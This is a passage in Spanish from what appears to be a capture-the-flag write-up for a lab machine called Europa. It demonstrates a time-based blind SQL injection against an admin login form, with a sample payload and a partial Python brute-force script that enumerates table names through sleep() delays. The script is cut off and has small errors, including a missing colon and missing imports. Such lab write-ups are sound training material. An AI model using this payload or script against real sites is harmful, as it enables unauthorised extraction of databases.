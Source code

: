 Cabe mencionar, que cuando esto sucede, podemos aprovecharnos del tiempo para ir enumerando lo que nos sea necesario. Podemos formular una consulta similar a la siguiente manera:
```
admin@europa.htb' and if(substr(database(),1,1)='a',sleep(5),1)-- -&password=pene
```

y si el primer caracter de la base de datos es **a** la web deberia tardar en responder 5 segundos aproximadamente.
Como nos podemos dar cuenta, de esta forma nos tardariamos demasiado, asi que vamos a scriptearnos algo en **Python**:
```python
from pwn import *
import signal
import pdb
import time
import urllib3
import string

# Desactiva el warning por el certificado autofirmado
urllib3.disable_warnings()

# ctrl + c
def def_handler(sig, frame):
	print("\n[!] Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables
main_url = "https://admin-portal.europacorp.htb/login.php"
characters = string.ascii_lowercase

# Funciones
def makeSQLI()

	# Cremos una sesión, ideal para gestionar "Cookies"
	s = requests.session()
	# Para evitar el warning del certificado
	s.verify = False

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")


	time.sleep(2)

	p2 = log.progress("Tables")

	tables = ""

	for position in range(1, 100):
		for character in characters:
	
			# Información a tramitar
			post_data = { 
				'email' : "admin@europacorp.htb' and if(substr((select group_concat(table_name) from information_schema.tables where table_schema=\"admin\" ),%d,1)='%s',sleep(5),1)-- -" % (position, character),
				'password' : 'pene'
				}

			p1.status(post_data['email'])
		
			time_start = time.time()
			r = s.post(main_url, data=post_data)
			time_end = time.time()
```